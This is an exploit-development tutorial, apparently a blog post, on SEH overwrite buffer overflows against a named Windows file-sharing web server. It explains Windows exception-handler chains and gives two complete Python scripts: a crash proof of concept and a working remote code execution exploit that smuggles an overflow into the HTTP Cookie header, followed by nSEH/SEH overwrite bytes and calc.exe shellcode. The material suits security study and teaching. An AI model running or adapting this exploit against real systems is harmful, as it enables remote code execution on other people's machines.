





#Part2: SEHExploit

## Getting things setup
1. windows xp sp3 32-bit
2. [vulnerable software](https://www.exploit-db.com/apps/60f3ff1f3cd34dec80fba130ea481f31-efssetup.exe)

this vulnerability is a GET HTTP Request Buffer Overflow and could lead to remote code exectuion. That means it could be exploited from remote location.

## Structured Exception Handling(SEH)

Windows SEH Chain, from [securitysift](http://www.securitysift.com/wp-content/uploads/2014/03/win_exploit_6_1-1.png)


Every thread has its own SEH chain, SEH Chain is formed by a chain of Exception Registration Record which structure like this
```
typedef struct _EXCEPTION_REGISTRATION_RECORD { 
    struct _EXCEPTION_REGISTRATION_RECORD *Next; 
    PEXCEPTION_ROUTINE Handler; 
} EXCEPTION_REGISTRATION_RECORD, *PEXCEPTION_REGISTRATION_RECORD;
```

the first member is a pointer to next _EXCEPTION_REGISTRATION_RECORD, the second member is a pointer to exception handler function. The function looks like this:

```
EXCEPTION_DISPOSITION 
__cdecl _except_handler(
    struct _EXCEPTION_RECORD *ExceptionRecord,
    oid EstablisherFrame,
    struct _CONTEXT *ContextRecord,
    void * DispatcherContext
);
```

ContextRecord contains registers data when exceptions occurs, and bellow is the definition of ExceptionRecord. 
```
typedef struct _EXCEPTION_RECORD {
        DWORD ExceptionCode;
        DWORD ExceptionFlags;
        struct _EXCEPTION_RECORD *ExceptionRecord;
        PVOID ExceptionAddress;
        DWORD NumberParameters;
        DWORD ExceptionInformation[EXCEPTION_MAXIMUM_PARAMETERS];
} EXCEPTION_RECORD;
```

The _except_handler uses above two information to determine whether this exception can be handled or not. If it can handle this exception, the return value of EXCEPTION_DISPOSITION is ExceptionContinueExecution. Else, it returns ExceptionContinueSearch to tell OS search next _EXCEPTION_REGISTRATION_RECORD.

How to locate SEH Chain?
```
get the first Exception Registration Record
> !teb 
get the SEH chain of current thread
> !exchain
```


## Crash
```
import socket
import os
import time
import sys
import struct


host = "192.168.95.149"
# Port of host
port = 80
BUF_SIZE = 3000

buf = "/.:/"                # Unusual, but needed
# Character pattern buffer to locate SEH offset
buf += "A" * BUF_SIZE
 

 
request = "GET /vfolder.ghp HTTP/1.1\r\n"
request += "Host: " + host + "\r\n"
request += "User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:31.0) Gecko/20100101 Firefox/31.0 Iceweasel/31.8.0" + "\r\n"
request += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8" + "\r\n"
request += "Accept-Language: en-US,en;q=0.5" + "\r\n"
request += "Accept-Encoding: gzip, deflate" + "\r\n"
request += "Referer: " + "http://" + host + "/" + "\r\n"
request += "Cookie: SESSIONID=16246; UserID=PassWD=" + buf + "; frmUserName=; frmUserPass=;"    # Insert buffer here
request += " rememberPass=pass"
request += "\r\n"
request += "Connection: keep-alive" + "\r\n"
request += "If-Modified-Since: Mon, 19 Jun 2017 17:36:03 GMT" + "\r\n"

print "[*] Connecting to target: " + host

# Set up our socket connection
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
    # Attempt to connect to host
    connect = s.connect((host, port))
    print "[*] Successfully connected to: " + host
except:
    print "[!] " + host + " didn't respond...\n"
    sys.exit(0)

# Send payload to target
print "[*] Sending payload to target..."
s.send(request + "\r\n\r\n")
print "[!] Payload has been sent!\n"
s.close()
```






## Jump to shellcode
1. Foud SEH offset is 53 (with Mona), fake SEH get called

2. Found a pointer to "Pop Pop Ret", Jump to Next SEH
```
>!py mona seh
```

Using a code section of application itself would make our exploit less dependent on OS.

** Don't pick a code section which contains \x00, it's EOF in a string and could lead to exploit fail.**



3. Found the opcode of Jump 0x10, Jump to Payload


We have talked this in [previous blog](Part1-StackOverflow.md), it is "\xeb\x10".

Since next seh is a 4 bytes pointer, let's pad it to 4 bytes with "\x90\x90".




```
import socket
import os
import time
import sys
import struct


host = "192.168.95.149"
# Port of host
port = 80
BUF_SIZE = 3000

buf = "/.:/"                # Unusual, but needed
# Character pattern buffer to locate SEH offset
buf += "A" * 53
 
nseh = "\xeb\x10\x90\x90"
seh = struct.pack("<L", 0x1001ab5f)

#payload = "\x90" * 24 + "\xcc"*20

nops = "\x90" * 24
# Calc.exe shellcode payload
payload = "\x31\xC9"                # xor ecx,ecx
payload += "\x51"                   # push ecx
payload += "\x68\x63\x61\x6C\x63"   # push 0x636c6163
payload += "\x54"                   # push dword ptr esp
payload += "\xB8\xC7\x93\xC2\x77"   # mov eax,0x77c293c7
payload += "\xFF\xD0"               # call eax

exploit = buf + nseh + seh + nops + payload

fill = "\x43"*(BUF_SIZE-len(exploit))   # Calculate number of filler bytes to use (C)
buf = exploit + fill    
 
request = "GET /vfolder.ghp HTTP/1.1\r\n"
request += "Host: " + host + "\r\n"
request += "User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:31.0) Gecko/20100101 Firefox/31.0 Iceweasel/31.8.0" + "\r\n"
request += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8" + "\r\n"
request += "Accept-Language: en-US,en;q=0.5" + "\r\n"
request += "Accept-Encoding: gzip, deflate" + "\r\n"
request += "Referer: " + "http://" + host + "/" + "\r\n"
request += "Cookie: SESSIONID=16246; UserID=PassWD=" + buf + "; frmUserName=; frmUserPass=;"    # Insert buffer here
request += " rememberPass=pass"
request += "\r\n"
request += "Connection: keep-alive" + "\r\n"
request += "If-Modified-Since: Mon, 19 Jun 2017 17:36:03 GMT" + "\r\n"

print "[*] Connecting to target: " + host

# Set up our socket connection
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
    # Attempt to connect to host
    connect = s.connect((host, port))
    print "[*] Successfully connected to: " + host
except:
    print "[!] " + host + " didn't respond...\n"
    sys.exit(0)

# Send payload to target
print "[*] Sending payload to target..."
s.send(request + "\r\n\r\n")
print "[!] Payload has been sent!\n"
s.close()
```

Exploit Success!



## Ref
1. http://www.shogunlab.com/blog/2017/11/06/zdzg-windows-exploit-4.html
2. https://www.securitysift.com/windows-exploit-development-part-6-seh-exploits/